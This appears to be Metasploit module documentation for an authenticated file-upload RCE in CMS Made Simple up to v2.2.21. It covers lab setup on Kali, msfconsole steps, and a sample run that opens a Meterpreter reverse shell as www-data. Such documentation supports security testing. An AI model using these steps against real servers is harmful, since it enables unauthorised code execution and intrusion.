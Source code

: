 ## Vulnerable Application

CMS Made Simple <= v2.2.21 allows an authenticated administrator to upload files
with the `.phar` or `.phtml` extensions, enabling execution of PHP code
leading to RCE. The file can be executed by accessing its URL in the
/uploads/ directory.

## Installation

### Kali Linux 2024.3

Install PHP dependencies:
```
sudo apt install -y php-gd php-mbstring php-intl php-xml php-curl php-zip php-mysql mariadb-server mariadb-client apache2 libapache2-mod-php8.4 unzip wget 
```

Start mariadb and apache:
```
sudo systemctl start apache2
sudo systemctl start mariadb
```

Connect to the database:
```
sudo mysql -u root -p
```

Create a database user `msfuser` and a database named `cmsms`:
```
CREATE USER 'msfuser'@'localhost' IDENTIFIED BY 'msfpass';
CREATE DATABASE cmsms;
GRANT ALL PRIVILEGES on cmsms.* TO 'msfuser'@'localhost';
FLUSH PRIVILEGES;
EXIT;
```

Download CMSMadeSimple, extract it and move it to `/var/www/html`:
```
wget https://s3.amazonaws.com/cmsms/downloads/15179/cmsms-2.2.21-install.zip
unzip cmsms-2.2.21-install.zip                
sudo mv cmsms-2.2.21-install.php /var/www/html
rm /var/www/html/index.html
```

Set the necessary permissions:
```
sudo chmod 755 -R /var/www/html/
sudo chown www-data:www-data -R /var/www/html/
```

The application should be now available at `http://localhost/cmsms-2.2.21-install.php/`,
navigate there in a browser to complete the setup wizard.
On the tests page, `Testing if we can change INI settings` warning can be ignored.
It will ask you for the database credentials created above, input them and enter `cmsms` for database name.

Once complete, go to `http://localhost/admin/login.php`, you should see an admin login panel.

## Verification Steps

1. Install CMSMadeSimple
2. Start msfconsole
3. Do: `use exploit/multi/http/cmsms_file_manager_auth_rce`
4. Do: `set RHOST [IP]`
5. Do: `set username [username]`
6. Do: `set password [password]`
7. Do: `run`
8. You should get a shell.

## Options

### USERNAME
The username for the CMSMS admin panel. Default is empty string

### PASSWORD
The password for the CMSMS admin panel. Default is empty string

## Scenarios

### CMSMadeSimple v2.2.21 on Kali Linux 2024.3

```
msf6 > use exploit/multi/http/cmsms_file_manager_auth_rce 
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/cmsms_file_manager_auth_rce) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf6 exploit(multi/http/cmsms_file_manager_auth_rce) > set username admin
username => admin
msf6 exploit(multi/http/cmsms_file_manager_auth_rce) > set password password
password => password
msf6 exploit(multi/http/cmsms_file_manager_auth_rce) > run
[*] Started reverse TCP handler on 192.168.232.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Sending stage (40004 bytes) to 192.168.232.128
[*] Meterpreter session 1 opened (192.168.232.128:4444 -> 192.168.232.128:42794) at 2025-03-22 02:53:16 -0400

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : kali
OS          : Linux kali 6.8.11-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.8.11-1kali2 (2024-05-30) x86_64
Meterpreter : php/linux
meterpreter >
```
